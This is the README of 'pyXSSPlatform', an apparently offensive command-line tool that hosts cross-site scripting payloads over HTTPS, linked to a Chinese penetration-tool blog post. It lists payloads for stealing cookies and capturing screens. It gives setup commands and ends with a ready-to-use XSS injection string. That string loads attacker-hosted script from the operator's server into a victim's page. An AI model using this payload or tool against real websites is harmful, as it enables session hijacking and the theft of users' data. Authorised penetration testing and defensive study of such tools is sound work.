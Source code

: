 # pyXSSPlatform
Used to build an XSS platform on the command line.

Usage:

1.generate the cert file

You can use openssl like this:

`openssl req -new -x509 -keyout https_svr_key.pem -out https_svr_key.pem -days 3650 -nodes`

2.add your js code to index.js

You can refer to the files in Payload_Template folder

Payload:

- GetCookie
- CaptureScreen
- GET/POST

3.start the HTTPS server

`pyXSSPlatform.py <listen address> <listen port> <cert file>`

Eg.

`pyXSSPlatform.py 0.0.0.0 443 https_svr_key.pem`

Finally, you can try the following pyaload :

`<img src=x onerror=with(document)body.appendChild(document.createElement('script')).src="https://<your XSSPlatform ip>/index.js"></img>`

[渗透工具开发——XSS平台的命令行实现](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%B7%A5%E5%85%B7%E5%BC%80%E5%8F%91-XSS%E5%B9%B3%E5%8F%B0%E7%9A%84%E5%91%BD%E4%BB%A4%E8%A1%8C%E5%AE%9E%E7%8E%B0)

